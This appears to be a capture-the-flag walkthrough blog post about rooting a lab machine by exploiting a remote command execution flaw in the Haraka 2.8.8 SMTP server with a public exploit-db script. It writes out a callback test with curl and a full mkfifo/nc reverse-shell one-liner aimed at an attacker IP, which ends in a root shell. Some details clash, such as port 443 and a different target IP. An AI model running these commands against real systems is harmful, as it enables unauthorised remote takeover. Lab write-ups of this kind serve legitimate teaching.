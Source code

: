 ```yaml
---
layout: post
title: "CTF7E4 - HARP Machine"
categories: CTF7E4
---
```


## Summary
&nbsp;
This machine had a vulnerability running on the port 25 (smtp service) which allowed an attacker to execute system commands. The service is named Haraka and the vulnerability exists in a plugin for processing attachments. If this service was started by user **root**, which in this case it was. Then the attacker could easily get a reverse shell and completely compromise the machine.

&nbsp;

- **OS:** Linux
- **IP:** 10.10.10.22
- **Difficulty:** Easy

## Steps
&nbsp;

In order to hack this machine, we should know what ports are open and we can do that by using a popular tool such as Nmap.

> **→ nmap -sC -sV -oN scan 10.10.10.22**{: style="color: red"}

**-sC** Use default scripts
**-sV** Probe open ports to determine service/version info
**-oN** Save output in nmap format.
&nbsp;

```
Nmap scan report for 10.10.10.22
Host is up (0.018s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6e:58:d1:e5:9e:4c:ae:fc:9c:16:3d:1f:51:a2:86:57 (RSA)
|   256 1c:b6:1f:66:26:df:c2:e2:0a:e2:b1:f3:c5:47:77:bf (ECDSA)
|_  256 04:9a:c6:31:c6:da:f0:33:1c:6f:ad:13:4c:2b:59:3a (ED25519)
25/tcp open  smtp    Haraka smtpd 2.8.8
|_smtp-commands: harp Hello [10.10.20.2], Haraka is at your service., PIPELINING, 8BITMIME, SIZE 0, 
80/tcp open  http    Apache httpd 2.4.29
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Index of /
Service Info: Hosts: harp, 127.0.1.1; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
&nbsp;
&nbsp;

From the nmap scan output, we can see that there is a web server running on port 80 and 443. Browsing to https://10.10.10.11/ we can see that directory listing is enabled and there aren't any files so we don't need to do a directory or file bruteforce.

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp1.png){:.images}
&nbsp;

Using a tool such as searchsploit we can search for known exploits that are published on [exploit-db](https://exploit-db.com). From our search results, we can see that Haraka version prior to 2.8.9 suffers from a Remote Command Execution.


&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp2.png){:.images}
&nbsp;

> **→ cp /usr/share/exploitdb/exploits/linux/remote/41162.py exploit.py**{: style="color: red"}

To test if the exploit works, we can listen for a connection on a random port in our machine.

> **→ nc -lnvp 9000**{: style="color: red"}

And send a request to our server using curl or wget from the attacker machine.

> **→ python2 haraka-rce.py -c 'curl 10.10.20.2:9000' -t root@haraka.test -m 10.10.10.22**{: style="color: red"}


&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp3.png){:.images}
&nbsp;

This means that the command we sent with the python script was executed. We can proceed to get a reverse shell with **nc** so we can find and read the **flag.txt**.

> **→ nc -lnvp 1337**{: style="color: red"}

And send a request to our server using curl or wget from the attacker machine.

> **→ python2 haraka-rce.py -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f\|/bin/sh -i 2>&1\|nc 10.10.20.2 1337 >/tmp/f' -t root@haraka.test -m 10.10.10.22**{: style="color: red"}

&nbsp;
![elk]({{ site.baseurl }}/assets/images/ctf7e4/machines/harp6.png){:.images}
&nbsp;

> **→ nc -lnvp 1337**{: style="color: red"}

```bash
Connection from 10.10.10.22:45150
/bin/sh: 0: can't access tty; job control turned off
# whoami
root
# cat /root/flag.txt
XOR{6bf5c10c7efcf0fa08821157b5a6d320825009c5}

```

&nbsp;
I hope you had fun solving this machine and learning something new.